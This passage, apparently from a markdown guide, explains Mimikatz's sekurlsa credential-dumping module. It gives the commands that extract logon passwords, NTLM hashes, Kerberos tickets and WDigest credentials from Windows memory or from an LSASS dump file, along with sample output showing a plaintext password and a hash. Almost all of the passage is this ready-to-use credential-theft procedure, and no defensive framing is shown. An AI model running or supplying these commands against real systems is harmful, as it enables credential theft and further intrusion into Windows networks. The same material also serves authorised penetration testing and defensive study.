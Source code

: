 ## Core Mimikatz Modules

### 1. Credential Dumping (sekurlsa)

#### Basic Credential Extraction
```cmd
# Dump all logon passwords from memory
mimikatz # sekurlsa::logonpasswords

# Expected output format:
Authentication Id : 0 ; 123456 (00000000:0001e240)
Session           : Interactive from 1
User Name         : admin
Domain            : COMPANY
Logon Server      : DC01
Logon Time        : 1/15/2024 10:30:45 AM
SID               : S-1-5-21-1234567890-987654321-1122334455-1001
	msv :
	 [00000003] Primary
	 * Username   : admin
	 * Domain     : COMPANY
	 * NTLM       : a9fdfa038c4b75ebc76dc855dd74f0da
	 * SHA1       : 3fbde5e7f12345678901234567890abcdef12345
	tspkg :
	wdigest :
	 * Username   : admin
	 * Domain     : COMPANY
	 * Password   : MySecretPassword123!
	kerberos :
	 * Username   : admin
	 * Domain     : COMPANY.LOCAL
	 * Password   : MySecretPassword123!
```

#### Targeted Credential Extraction
```cmd
# Dump only NTLM hashes
mimikatz # sekurlsa::msv

# Dump only Kerberos tickets
mimikatz # sekurlsa::kerberos

# Dump only WDigest passwords (if enabled)
mimikatz # sekurlsa::wdigest

# Dump only TsPkg credentials
mimikatz # sekurlsa::tspkg

# Dump credentials for specific process
mimikatz # sekurlsa::process

# Extract credentials from specific LSASS dump file
mimikatz # sekurlsa::minidump lsass.dmp
mimikatz # sekurlsa::logonpasswords
```
